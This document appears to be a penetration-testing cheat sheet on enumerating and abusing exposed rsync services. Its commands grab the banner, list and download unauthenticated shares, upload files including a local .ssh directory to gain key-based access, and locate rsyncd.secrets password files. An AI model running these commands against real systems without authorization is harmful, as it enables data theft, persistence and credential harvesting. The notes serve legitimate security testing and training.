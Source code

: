 # RSYNC Enumeration
## Pretty interesting link
- https://book.hacktricks.xyz/pentesting/873-pentesting-rsync

## Banner and manual communication
```bash
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy        	
NAS_Public     	
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```

## Enumerate Shared folders (No authentication)
```bash
# Enumerate RSYNC folders using NSE script
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
# Manualy enumerating RSYNC folders
rsync -av --list-only rsync://192.168.64.126
rsync -av --list-only rsync://192.168.64.126/fox
```

## Copy all files to out local machine (No authentication)
```bash
rsync -av rsync://192.168.64.126/fox .
```

## Upload a file inside the remote directory (No authentication)
```bash
# Copy a single file (ex : test.txt) on the remote machine
rsync -av test.txt rsync://192.168.64.126/fox/test.txt
# Copy the content of a folder (ex : toto/) on the remote machine
rsync -av toto rsync://192.168.64.126/fox
```

## If credentials are needed
```bash
# Will list the content of the remote share
rsync -av --list-only rsync://username@192.168.0.123/shared_name
# Will download the content of the remote share
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
# Will upload the content of the .ssh folder inside the remote share folder
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```

## Post Exploitation
```bash
# Those files contain passwords
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```